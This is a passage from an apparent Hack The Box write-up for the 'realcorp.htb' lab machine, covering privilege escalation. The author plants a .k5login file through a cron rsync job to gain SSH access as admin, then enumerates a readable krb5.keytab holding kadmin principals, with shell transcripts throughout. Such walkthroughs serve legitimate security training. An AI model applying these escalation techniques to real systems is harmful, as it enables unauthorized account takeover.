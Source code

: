 Okay... So script is basically syncing two directories. The /var/log/squid and /home/admin. It basically writes what the squid directory had to the admin directory because it was running rsync. 

One of my first thoughts was to hijack the path of binaries. Because my user was in the path but then I got to know that cronjobs can have their own paths and also the binaries were using absolute paths, leaving no opening fot path hijack. I did try to hijack the "cd" binary though, but that didn't work because "cd" was  built in binary and does not use the PATH variable to locate it.

I tried writing my public ssh key to the .ssh folder in admin but that didn't work. After a nudge I got to know about the presence of .k5login file which basically allows any user to login as another user if they have their name inside that file and that file is located in another users home folder.

Since I was in the squid group I could write to /var/log/squid. I created a file with the content as

`j.nakazawa@REALCORP.HTB`

and saved it. After that I waited a few seconds and let the cron job run which will place this file in the admin folder for me. And I was able to SSH as admin.

[Reference](https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html)

{%highlight text%}
[j.nakazawa@srv01 ~]$ cd /var/log/squid/
[j.nakazawa@srv01 squid]$ ls
ls: cannot open directory '.': Permission denied
[j.nakazawa@srv01 squid]$ vi .k5login

ssh -o GSSAPIServerIdentity=srv01.realcorp.htb admin@realcorp.htb.htb
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Thu May 20 06:16:01 2021
[admin@srv01 ~]$ ls
squid_logs.tar.gz.2021-05-20-061601
[admin@srv01 ~]$ whoami
admin
[admin@srv01 ~]$ id
uid=1011(admin) gid=1011(admin) groups=1011(admin),23(squid) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
{%endhighlight%}

Now I was finally admin I just needed to root. After some enumeration I found a file that wsa just readable by me. The krb5.keytab file in the /etc folder. 
I lookup what it is, and find that it basically works as a password to access other kerberos service. I list what all we can access using that file.

{%highlight text%}
[admin@srv01 etc]$ ls -al | grep admin
-rw-r-----.  1 root admin    1403 Dec 19 06:10 krb5.keytab


[admin@srv01 etc]$ klist -kt krb5.keytab
Keytab name: FILE:krb5.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/08/2020 22:15:30 host/srv01.realcorp.htb@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:00:42 kadmin/changepw@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB